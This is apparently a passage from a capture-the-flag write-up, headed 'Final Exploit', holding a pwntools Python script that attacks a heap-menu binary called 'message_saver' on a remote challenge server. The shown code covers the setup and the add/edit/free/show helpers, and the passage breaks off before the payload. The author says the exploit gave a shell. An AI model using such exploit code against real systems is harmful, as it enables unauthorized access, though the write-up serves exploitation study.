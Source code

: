 ### **Final Exploit**

Note that for some reason, the exploit isn't 100% reliable. I can't seem to figure out why, but I had to run it a couple times on the remote server before it gave me a shell. At the end of the day though, it works.

```python
#!/usr/bin/env python2

from pwn import *

context.arch = 'amd64'
context.terminal = ['tmux', 'new-window']

BINARY = './message_saver'
HOST, PORT = '35.226.111.216', 4444

elf = ELF(BINARY)
libc = ELF('./libc-2.23.so')

def get_base_address(proc):
	return int(open("/proc/{}/maps".format(proc.pid), 'rb').readlines()[0].split('-')[0], 16)

def debug(breakpoints):
    script = ""
    PIE = get_base_address(p)
    for bp in breakpoints:
        script += "b *0x%x\n"%(PIE+bp)
    gdb.attach(p,gdbscript=script)

def add(idx, topic, body):
    p.sendlineafter('>>', '1')
    p.sendlineafter('index\n', str(idx))
    p.sendlineafter('topic\n', topic)
    p.sendlineafter('body\n', str(len(body)+2)) # +2 due to application logic stuff
    p.sendlineafter('body\n', body)

def edit(idx, topic, body):
    p.sendlineafter('>>', '2')
    p.sendlineafter('index\n', str(idx))
    p.sendlineafter('topic\n', topic)
    p.sendlineafter('body\n', body)

def free(idx):
    p.sendlineafter('>>', '3')
    p.sendlineafter('index\n', str(idx))

def show(idx):
    p.sendlineafter('>>', '4')
    p.sendlineafter('index\n', str(idx))

    content = p.recvuntil('Message viewing')

    return content


def start():
    if not args.REMOTE:
        return process(BINARY)
    else:
        return remote(HOST, PORT)

p = start()
if not args.REMOTE and args.GDB:
```